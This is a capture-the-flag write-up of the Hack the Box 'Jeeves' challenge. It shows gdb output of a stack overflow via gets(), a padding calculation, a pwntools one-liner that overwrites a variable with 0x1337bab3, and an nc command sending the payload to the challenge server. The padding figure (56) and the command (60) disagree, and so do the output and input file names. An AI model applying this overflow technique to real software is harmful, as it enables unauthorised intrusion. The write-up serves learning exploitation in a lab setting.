

### Jeeves Hack the Box Challenge : Intro to Binary Exploitation

Main Resource Used : https://www.youtube.com/watch?v=W5dVsa3__N4&t

Lets try to check what the binary is doing and it seems to be a very simple binary just out putting the following  output and in the middle it asks for our name and then displays it with a greeting like so :

```bash
Hello, good sir!
May I have your name? a
Hello a, hope you have a good day!
```

Now lets analyze the file in Ghidra to see what its actually doing.



Here it seems we need to overwrite the value of the variable i have renamed as variable to overwrite and this machine is using the gets function which is vulnerable to buffer overflow so we can try to overwrite the value to that certain point using the buffer overflow attack but to do lets first lets see if we can overwrite stuff. So transferring my application to gdb and running it with a 100 characters i get a segmentation fault and i can see that i can overwrite the variable :

```bash
gdb-peda$ r
Starting program: /home/nickapic/htb/challenges/jeeves
Hello, good sir!
May I have your name? aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa, hope you have a good day!

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x0
RDX: 0x0
RSI: 0x5555555592a0 ("Hello ", 'a' <repeats 100 times>, ", hope you have a good day!\n")
RDI: 0x7ffff7fa5670 --> 0x0
RBP: 0x6161616161616161 ('aaaaaaaa')
RSP: 0x7fffffffded8 ('a' <repeats 28 times>)
RIP: 0x5555555552ae (<main+197>:	ret)
R8 : 0xffffffff
R9 : 0x86
R10: 0x7fffffffde90 ('a' <repeats 100 times>)
R11: 0x246
R12: 0x555555555100 (<_start>:	endbr64)
R13: 0x0
R14: 0x0
R15: 0x0
EFLAGS: 0x10212 (carry parity ADJUST zero sign trap INTERRUPT direction overflow)
```

Now lets try to calculate how many values we gotta go over to get the our variable to overwrite.

We see there is 44 size buffer then an integer which is 4 bytes , then a pointer which is normally 8 bytes and then the int variable which we have to overwrite is 4 bytes so we will need to also add another 4 bytes this calculation to ```0x1337bab3```
So 44+4+8+4 = 56 bytes of padding and then the address. So we can also see that this is in little endian and for 64bit. So we can use soemthing like the pwn library to pack our 64 bit integer

Information about this : https://docs.pwntools.com/en/stable/util/packing.html?highlight=p64#pwnlib.util.packing.p64


```bash
python2 -c "import pwn; print('a'*60 + pwn.p64(0x1337bab3))" > input.txt
```

and then to get the flag we can use :

```bash
nc 139.59.162.195 30942 < input
```
